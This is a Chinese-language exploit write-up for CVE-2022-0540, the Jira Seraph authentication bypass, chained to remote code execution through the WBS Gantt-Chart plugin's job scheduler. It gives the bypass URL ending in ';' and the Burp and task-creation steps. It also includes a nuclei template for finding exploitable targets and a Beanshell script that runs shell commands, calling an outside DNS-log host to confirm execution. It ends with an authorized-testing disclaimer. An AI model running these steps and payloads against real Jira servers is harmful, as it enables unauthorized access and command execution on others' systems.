 # Atlassian Jira Seraph 认证绕过远程代码执行漏洞（CVE-2022-0540）



## 利用细节

根据漏洞作者文章的描述，atlassian 官方发布了一个很长的受影响的插件的列表（绝大部分是误报），而作者给出了几个实际受影响的插件名称

![image-20220525190523282](images/image-20220525190523282.png)

根据提示的利用条件，结合 WBS Gantt-Chart for Jira 插件的 [官方文档](https://ricksoft-support.atlassian.net/wiki/spaces/WGCE0914/pages/2930802887/Global+job+scheduler+settings+-+aggregating+reflecting+time+tracking+and+calculating+progress+rate)

![image-20220525190607569](images/image-20220525190607569.png)

本质上就是利用 job scheduler 模块 Task 的 Beanshell Script 实现 RCE，利用过程如下

1. （为方便操作）使用 Burp 代理的替换功能 `Proxy > Options > Match and Replace` 新建规则

![image-20220525190640472](images/image-20220525190640472.png)

2. 开启 Burp 代理访问目标 Jira ，访问 `http://IP:PORT/secure/WBSGanttManageScheduleJobAction.jspa;` 绕过认证查看 `job scheduler configuration`

![image-20220525190657966](images/image-20220525190657966.png)

由于我们最终执行的 Beanshell Script 是作为定时任务执行，为方便可以修改一下执行的间隔，点击 Edit 参照 Cron 格式修改即可

3. 新建 Task

![image-20220525190713512](images/image-20220525190713512.png)

4. 配置 Task

![image-20220525190728145](images/image-20220525190728145.png)

配置完成后点击 Update 自动跳转到 login page，但后台Task实际已经添加上了

5. 使能 Task

![image-20220525190740547](images/image-20220525190740547.png)

新创建的 Task 默认都是 Disable 状态，需要手动将其修改为 Enable 状态，然后等待几秒 Script 执行

6. 得到 DNSLOG 记录

![image-20220525190756503](images/image-20220525190756503.png)

同时 job scheduler 中可以看到命令执行完成的提示

![image-20220525190830668](images/image-20220525190830668.png)

<br>

利用前提

```
WBS Gantt-Chart for Jira <= 9.14.3.1
```



## 验证可利用

```yaml
id: CVE-2022-0540

info:
  name: Atlassian Jira Seraph - Authentication Bypass Verify Exploitable(CVE-2022-0540)
  author: DhiyaneshDK
  severity: critical
  description: |
    Jira Seraph allows a remote, unauthenticated attacker to bypass authentication by sending a specially crafted HTTP request. This affects Atlassian Jira Server and Data Center versions before 8.13.18, versions 8.14.0 and later before 8.20.6, and versions 8.21.0 and later before 8.22.0. This also affects Atlassian Jira Service Management Server and Data Center versions before 4.13.18, versions 4.14.0 and later before 4.20.6, and versions 4.21.0 and later before 4.22.0.
  reference:
    - https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
    - https://nvd.nist.gov/vuln/detail/CVE-2022-0540
    - https://confluence.atlassian.com/display/JIRA/Jira+Security+Advisory+2022-04-20
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2022-0540
    cwe-id: CWE-287
  metadata:
    shodan-query: http.component:"Atlassian Jira"
  tags: cve,cve2022,atlassian,jira,exposure,auth-bypass

requests:
  - method: GET
    path:
      - '{{BaseURL}}/secure/WBSGanttManageScheduleJobAction.jspa;'

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'WBS Gantt-Chart'

      - type: regex
        regex:
          - '<td headers="name">([.|\D]*?)</td>'
        dsl: []

      - type: status
        status:
          - 200

```

运行示例

```
nuclei -l targets.txt -t exploit.yaml
```

运行截图

![image-20220525173951955](images/image-20220525173951955.png)



## 参考链接

https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/

https://ricksoft-support.atlassian.net/wiki/spaces/WGCE0914/pages/2930802887/Global+job+scheduler+settings+-+aggregating+reflecting+time+tracking+and+calculating+progress+rate

Beanshell Script

```java
import java.io.IOException;
import java.lang.*;

Runtime runtime = Runtime.getRuntime();

try {
    String command = "ping -nc 1 55d2721a.dns.1433.eu.org";

    if (System.getProperty("os.name").toLowerCase().contains("windows")) {
    	runtime.exec(new String[]{"cmd.exe", "/c", command});
    } else {
    	runtime.exec(new String[]{"/bin/bash", "-c", command});
    }

} catch (IOException e) {
    e.printStackTrace();
}

```



***声明：该文章中提到的信息仅用于合法的，经过授权的渗透测试，公司内部安全检查与研究使用。由于使用本文章提供的信息带来的不良后果由使用者本人负责。***
